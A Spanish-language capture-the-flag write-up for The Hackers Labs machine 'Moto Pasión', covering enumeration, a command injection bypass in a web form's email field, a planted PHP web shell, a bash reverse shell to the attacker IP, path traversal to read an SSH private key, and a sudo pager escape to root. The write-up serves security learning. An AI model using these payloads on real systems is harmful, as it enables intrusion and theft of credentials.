# 🖥️ Write-Up: [MOTO PASIÓN](https://labs.thehackerslabs.com/machine/166)

## 📌 Información General
    - Nombre de la máquina: Moto Pasión
    - Plataforma: The Hackers Labs
    - Dificultad: Profesional
    - Creador: Pylonetwork
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

Nuestra ip es la **10.0.2.7**

La máquina Moto Pasión tiene la ip **10.0.2.14**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina utilizando la herramienta **nmap**.



La máquina tiene abiertos los puertos **22** y **80**. Ahora vamos a ver que versiones y servicios se están ejecutando en ellos.



- El puerto 22 está ejecutando un servicio de OpenSSH.  
- El puerto 80 está ejecutando un servicio web con Nginx.

### Puerto 80

La máquina está aplicando **Virtual Hosting** por lo que vamos a añadir su ip y el dominio **moto-pasion.thl** al **/etc/hosts**

```bash
echo "10.0.2.14 moto-pasion.thl" >> /etc/hosts
```
Si accedemos con el navegador a **moto-pasion.thl** veremos una web de compra y venta de motos.

Tras revisarla, observamos tres formularios pero sólo nos va a resultar útil el formulario de la ruta **/alerta-moto**



Si interceptamos la petición de este formulario con **burpsuite** vemos que se envían cuatro parámetros, mark, model, phonenumber y email. El parámetro "mark" necesita una marca de moto de la ruta **/alerta-moto/ayuda.php**, en nuestro caso vamos a utilizar **Honda**.



Vemos que si se ejecuta correctamente recibimos un mensaje de éxito.

## 🔥 Explotación

Tras varias pruebas conseguimos descubrir que el parámetro **email** es vulnerable a **Command Injection** pero es necesario aplicar un **bypass** para lograr ejecutar comandos.

Nos levantamos un servidor con python en el puerto 80 e introducimos en el parámetro email 
```
`\c\u\r\l+http://10.0.2.7`
``` 

IMPORTANTE: Usar la comilla inversa (`) para envolver el comando


Podemos ejecutar comandos, así que vamos a mandarnos una reverse shell, pero para facilitarnos su ejecución primero vamos a crear un archivo **cmd.php** que contenga:

```php
<?php system($_GET['cmd']);?>
```
Ahora vamos a inyectar un curl que apunte a nuestro **cmd.php** y guarde la salida de este en un **cmd.php** situado en el directorio de **/alerta-moto** . De este modo, si el usuario que está ejecutando el servicio web tiene permisos de escritura en el directorio, debería tenerlos, nos creará el archivo.





Funciona, así que nos ponemos en escucha con **Netcat**
```bash
nc -nlvp 443
```

Y nos mandamos la reverse shell en el parámetro cmd
```bash
bash -c 'bash -i >&26 /dev/tcp/10.0.2.7/443 0>%261'
```

Nos conectamos como el usuario **developer**



En el directorio de nuestro usuario vemos un archivo **.mysql_history** que nos da una pista de que mysql se está ejecutando, así que miramos los servicios internos.



Un servicio se está ejecutando en el puerto 3306, mysql, y además vemos otro servicio en el puerto 8000. Si vemos los procesos que se están ejecutando con `ps -faux` descubrimos que es un servicio web que ejecuta el usuario **admin**



## 🔑 Acceso SSH
### Developer

Vamos a aplicar **port forwarding** utilizando el servicio de **ssh** para traernos a nuestro localhost el servicio interno del puerto 8000 de la máquina.

Primero nos creamos un **par de llaves rsa** usando 
```bash
ssh-keygen -t rsa -b 4096
```

Ahora creamos una copia de la id_rsa.pub que llamaremos authorized_keys

```bash
cp id_rsa.pub authorized_keys
```

Y copiamos el contenido de la id_rsa a nuestro equipo para poder conectarnos por ssh y mandar la web interna a nuestro localhost por el puerto 8000.

```bash
ssh -L 8000:127.0.0.1:8000 developer@10.0.2.14 -i id_rsa
```
Accedemos con nuestro navegador a nuestro localhost por el puerto 8000 y vemos un panel de login.



No tenemos credenciales pero **mysql** estaba ejecutándose, así que si accedemos es posible que las encontremos.
Revisamos nuestras variables de entorno y vemos nuestra contraseña para **mysql**



Nos conectamos a mysql
```bash
mysql -u developer -p
```


Vemos una base de datos que hace referencia a la aplicación interna, por lo que las credenciales de los usuarios se sacan de aquí. 

Tenemos dos usuarios y sus dos hashes, pero no se pueden romper. Revisamos los permisos de nuestro usuario en mysql y vemos que dispones de todos los permisos en la base de datos de la aplicación interna, por lo que podemos modificar tanto las contraseñas como los nombres de usuario.



## 🧗 Escalada de Privilegios
### Admin

Vamos a generar una contraseña simple y a actualizar al usuario administrator con ella.

Primero con el identificador de hashes.com vemos que el algoritmo de los hashes es **bcrypt**.

Utilizamos https://bcrypt-generator.com/ para generar el hash de una contraseña simple: **password**

Obtenemos --> `$2a$12$i0yreCV9tY3fvht34qnkhO9n6Ya5j7EhmBIB1wQnQ4uHLaibyoKyS`

Ahora actualizamos con este valor la contraseña del usuario administrator

```sql
UPDATE users SET password='$2a$12$i0yreCV9tY3fvht34qnkhO9n6Ya5j7EhmBIB1wQnQ4uHLaibyoKyS' WHERE id=1;
```
Entramos con las credenciales **administrator** : **password**



Tras probar la web con el usuario tester y otros creados por mí, se puede decir que la parte interesante se encuentra en el apartado de **pedidos** y en su botón de **Recargar emails**, ya que lee un archivo del sistema **/var/mail/nombre del usuario** y nosotros podemos controlar el nombre de usuario ya que tenemos todos los privilegios en su base de datos.



Por lo tanto, como la web la ejecuta el usuario **admin** vamos a modificar el nombre del usuario **administrator** para que sea un **Path Traversal** que apunte a su **id_rsa**

```sql
UPDATE users SET user='../../../../../home/admin/.ssh/id_rsa' WHERE id=1;
```

Ahora volvemos a acceder a la web con las credenciales **../../../../../home/admin/.ssh/id_rsa** : **password**

Y obtenemos la **id_rsa** de **admin**



Nos conectamos por **ssh** con ella

```bash
ssh admin@10.0.2.14 -i id_rsa_admin
```

Ya tenemos la primera flag.



### Root

Si revisamos sus permisos sudoers, podemos ejecutar como root y sin proporcionar contraseña el comando **swaks**



Este comando tiene un panel de ayuda que se activa con --help

```bash
sudo /usr/bin/swaks --help
```

Una vez dentro del panel de ayuda escribimos `!/bin/bash` y conseguimos una bash como **root**

